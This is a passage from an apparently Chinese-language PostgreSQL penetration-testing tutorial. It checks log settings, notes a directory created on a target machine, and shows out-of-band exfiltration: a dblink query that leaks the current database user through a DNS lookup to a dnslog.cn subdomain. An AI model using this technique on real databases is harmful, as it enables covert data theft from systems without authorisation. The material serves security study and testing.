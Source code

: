 |     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```sql<br>-- 查询一下修改是否成功<br>select name,setting,short_desc from pg_settings where name like 'log_%';<br>``` |

[![](assets/1710209150-e67468abc82502d821a74af324f0c1ed.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/43.png)

进入靶机，可以看到 f0x 目录已经创建

[![](assets/1710209150-246d2b1474561ae9c93049e9d4b619f0.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/44.png)

- - -

# [](#postgresql-%E5%B8%A6%E5%A4%96%E6%95%B0%E6%8D%AE)PostgreSQL 带外数据

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>-- 开启 dblink 扩展<br>CREATE EXTENSION dblink<br><br>-- 获取当前数据库用户名称<br>SELECT * FROM dblink('host='\|(select user)\|'.djw0pg.dnslog.cn user=test dbname=test', 'SELECT version()') RETURNS (result TEXT);<br>``` |

[![](assets/1710209150-262bb4c2ad4eabc95d7d22c98b34442b.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/21.png)
